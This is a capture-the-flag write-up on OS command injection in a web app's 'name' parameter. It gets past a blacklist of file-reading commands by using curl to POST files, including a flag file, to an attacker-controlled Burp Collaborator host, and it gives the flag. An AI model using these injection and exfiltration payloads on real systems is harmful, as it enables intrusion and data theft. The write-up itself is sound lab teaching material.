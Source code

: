 **Vulnerability:** OS Command Injection (with blacklist bypass)

### Overview

The application takes user input via a `name` parameter and returns a greeting:

```
Hello <name>
```

![image](https://github.com/user-attachments/assets/f9a188ab-b14d-46e3-a2dc-ae33c6c711a0)


When analyzing how the server handles this input, it became apparent that the `name` field is vulnerable to **OS Command Injection**.

### Exploiting the Vulnerability

When we submit something like:

```
url/?name=shlok; ls
```

The server returns:

```
Hello, shlok
index.php
style.css
```

`ls` is executed, suggesting unsanitized input is passed directly into a system call .

![image](https://github.com/user-attachments/assets/1e5897ec-7555-4454-9571-406cd9da3417)


### Initial Roadblocks

Attempting to read sensitive files such as the flag using common commands like:

```
name=shlok; cat index.php
name=shlok; tac index.php
```

…resulted in error messages indicating **command blocked** was in place. Words like `cat`, `tac`, `more`, `less`, etc., were blocked.

![image](https://github.com/user-attachments/assets/8f3c3b45-4fb8-4bde-8d69-ed60721a55c2)



### Blacklist Bypass via Out-of-Band (OOB) Exfiltration

To bypass the blacklist and still exfiltrate the contents of the flag, I used **curl** to send the output of a command to a **Burp Collaborator** or similar request bin server.

Here’s the payload format used:

```
?name=shlok; curl -X POST -d @/index.php http://<your-burp-collab>.oastify.com
```

This command sends the contents of `/index.php` as the POST body to a listener server I control.

![image](https://github.com/user-attachments/assets/446e0a58-cc17-493f-9439-553bbf5908fa)


### Final Payload Example

```bash
name=shlok; curl -X POST -d @/secret/flag.txt http://<your-burp-collab>.oastify.com
```
![image](https://github.com/user-attachments/assets/7be8a091-738d-4c85-8233-77e46a345f3d)


#### Flag: flag{r3str1ct3d_d0esn7_m34n_s3cur3}
